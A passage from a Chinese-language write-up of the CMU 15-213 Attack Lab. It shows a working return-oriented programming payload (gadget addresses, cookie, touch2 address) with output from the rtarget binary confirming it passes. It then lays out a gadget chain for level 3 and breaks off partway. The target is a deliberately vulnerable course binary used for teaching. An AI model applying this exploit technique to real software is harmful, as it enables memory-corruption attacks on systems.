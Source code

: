 于是乎，构造字符串如下：

```txt
00 00 00 00 00 00 00 00 /* 0x28 bytes */
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
ab 19 40 00 00 00 00 00 /* addr of gadget1 */
fa 97 b9 59 00 00 00 00 /* cookie: 0x59b997fa */
c5 19 40 00 00 00 00 00 /* addr of gadget2 */
ec 17 40 00 00 00 00 00 /* addr of touch2(rdi):  */
```

测试，

```bash
$ ./rtarget -qi answer/phase_4_raw
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
```

`PASS`!!!


### Level 3

这一关加大了难度，还是利用之前`touch3()`的代码，我们需要将指向字符串的指针传递给寄存器`$rdi`中，这个时候我们需要获取当前指令的栈顶地址`$rsp`，通过`movq %rsp,%rax`，将地址存放到了寄存器`$rax`中

但是我们要得可不是当前栈顶，而是存放在`touch3`地址之后的地址，那么我们就需要对地址进行一个加法操作，在`farm.c`中只找到`lea (%rdi,rsi,1),%rax`可以用来计算地址

于是，需要将地址转移到`%rdi`，偏移量转移到`%rsi`，以完成目标地址的计算，而偏移量是根据最后我们需要的`gadgets`的个数来定的。

查阅汇编指令编码表以及阅读`farm.c`的源码，

找到如下一条逻辑链以完成我们将字符串的地址传递给寄存器`$rdi`，同时新调用的函数`hexmath`不会覆盖掉字符串的内容。

- 1.首先获取当前指令地址    rbp -> rax
```s
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq  
```
- 2.将rax存储的地址放在rdi  rax -> rdi
```s
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq  
```
- 3.获取偏移量x放在rax  pop %rax
```s
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
```
- 4.    eax -> edx
```s
00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	retq   
```
- 5.    edx -> ecx